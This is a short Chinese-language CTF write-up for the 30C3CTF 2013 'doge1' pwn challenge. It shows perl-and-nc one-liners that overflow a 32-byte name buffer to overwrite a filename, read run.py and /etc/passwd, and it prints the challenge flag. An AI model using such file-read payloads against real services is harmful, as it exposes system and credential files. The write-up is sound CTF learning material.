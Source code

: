 title: 30C3CTF 2013 PWN 100 DOGE1
date: 2013-12-30 21:25
category: ctf
tags: ctf, 30c3CTF, pwn
slug: 30c3ctf_2013_pwn_100_doge1

這次都沒有人陪打 QQ  
只解兩題 100 分...真慘  
不過這題 100 分，跟另一題的難度也差太多了吧 = =  
* * *

先用 nc 連線過去，要求我們輸入名稱，然後就看到一隻...豬頭?  
提示有兩個指令好用: `feed`, `show`  
`show` 是再印一次豬頭，`feed` 也差不多，奇怪的功能 = =  
![doge1.png]({filename}/images/30c3CTF_2013_doge_1.png)  

假如不輸入 `feed` 或 `show`，試著輸入長字串，毫無反應 Orz  
試試看輸入超長名稱....沒有印出那顆豬頭了 XD  

這題有提供原始程式，資料夾底下有三個檔案:

* ascii\_art\_doge\_color.txt
* doge.so
* run.py

*ascii_art_doge_color.txt* 就是那隻豬頭的 ascii 圖檔  
*run.py* 只有：  

```
#!/usr/bin/env python
import signal
import doge
signal.signal(signal.SIGCHLD, signal.SIG_IGN)
doge.listen("0.0.0.0", 1024)
```

*doge.so* 是編譯過的 linux library  
執行起來，並且輸入長字串看看結果，結果 server 端有噴出錯誤訊息  
>...  
>File "doge.pyx", line 54, in doge.Doge.\_\_str\_\_ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'  

看來是發生 bof 了 XD  
繼續試一下前面塞多少才會蓋到，結果是 "a"x32  
`perl -e 'print "a"x32 . "test"' | nc 0 1024`  
>...  
>File "doge.pyx", line 54, in doge.Doge.__str__ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'testi\_art\_doge\_color.txt'  

試試看能不能成功讀檔：
`perl -e 'print "a"x32 . "run.py\x00"' | nc 0 1024`
>Dogename: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaarun.py#!/usr/bin/env python  
>import signal  
>import doge  
>signal.signal(signal.SIGCHLD, signal.SIG\_IGN)  
>doge.listen("0.0.0.0", 1024)  
>commands: feed, show  

接下來就是猜猜看了...試了幾個檔案像是 *flag* , *flag.txt* , *key* , *key.txt* ...都失敗了 = =  
最後猜到 */etc/passwd*  
![flag.png]({filename}/images/30c3CTF_2013_doge_flag.png)

key: `30C3_51dd250e0adb864ff40cc40b818852f4`

